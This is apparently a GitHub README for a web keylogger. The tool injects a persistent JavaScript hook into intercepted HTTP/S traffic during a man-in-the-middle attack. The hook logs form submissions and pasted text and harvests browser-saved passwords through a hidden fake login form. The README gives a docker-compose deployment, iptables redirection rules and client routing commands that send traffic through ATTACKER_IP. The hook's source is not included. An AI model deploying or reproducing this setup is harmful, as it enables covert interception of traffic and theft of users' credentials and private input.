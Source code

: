 # Web Keylogger
Tool for injecting monitoring script into the HTTP/S traffic during MITM attack. The script is capable of monitoring selected user's activities (submiting forms and pasting text) and extraction of user's stored credentials. Upon initial injection to the web page (origin), script is able to persist itself inside a browser and operate even after the MITM attack has completed up until user clears his/her browser.

## mitmproxy
[mitmproxy][1] is an interactive, SSL/TLS-capable intercepting proxy with a console interface for HTTP/1, HTTP/2, and WebSockets.

![Schema](docs/sslSplit.svg)

## Keylogger
* Web-service logging data from the Hook and visualizing them

### JS Hook
* Intercepts:
  * data submitted to forms,
  * pasted text into webpage
* Extracts user's credential by faking login form --- if credentials are stored for the domain, browser (Chrome, Firefox) inserts them into the hidden fake login form

## docker-compose.yml

```
version: '3.5'

services:
  injector:
    image: injector
    container_name: injector
    build:
      context: ./injector
    volumes:
      - ./data/mitmproxy:/root/.mitmproxy
    ports:
      - 8080:8080
    environment:
      - HOOK_HOST=$HOOK_HOST
      - HOOK_PORT_HTTP=$HOOK_PORT_HTTP
      - HOOK_PORT_HTTPS=$HOOK_PORT_HTTPS
    network_mode: host

  keylogger:
    image: nesatfit/keylogger:latest
    build:
      context: ./keyloggerServer
    container_name: keylogger
    command: --db=mongo --hook_host=$HOOK_HOST --hook_port_http $HOOK_PORT_HTTP --hook_port_https $HOOK_PORT_HTTPS
    ports:
      - 8081:80
      - 8445:443
      - 7000:7000
    restart: unless-stopped
    volumes:
      - ./data/mitmproxy:/data/mitmproxy
      - ./data/haproxy:/data/haproxy
    depends_on:
      - injector
      - mongo
    environment:
      - HOOK_HOST=$HOOK_HOST

  mongo:
    container_name: keylogger_mongo
    image: mongo
    restart: unless-stopped
    volumes:
      - ./data/mongo:/data/db
```

## Server Setup

```bash
# Modify .env and docker-compose.yml variables to reflect your environment
docker-compose up -d

# Setup firewall rules
sysctl -w net.ipv4.ip_forward=1
sysctl -w net.ipv4.conf.all.send_redirects=0
iptables -P FORWARD ACCEPT
iptables -t nat -N MITM
iptables -t nat -A MITM -i eth0 -p tcp --dport 80 -j REDIRECT --to-port 8080
iptables -t nat -A MITM -i eth0 -p tcp --dport 443 -j REDIRECT --to-port 8080

# Enable
iptables -t nat -A PREROUTING -j MITM

# Disable
iptables -t nat -D PREROUTING -j MITM
```

## Client Setup

```bash
# Simulate MITM by setting a default gateway to attackers IP
ip route del to default via ORIGINAL_DEFAULT_GATEWAY_IP
ip route add default via ATTACKER_IP

Visit mitm.it in client browser and install CA certificate
```

## Demonstration
- https://youtu.be/wcNaJEpQFnc

## Read more

- <https://blog.heckel.xyz/2013/08/04/use-sslsplit-to-transparently-sniff-tls-ssl-connections/>
- <https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/intercepting-ssl-and-https-traffic-with-mitmproxy-and-sslsplit/>

[1]: <https://github.com/mitmproxy/mitmproxy>
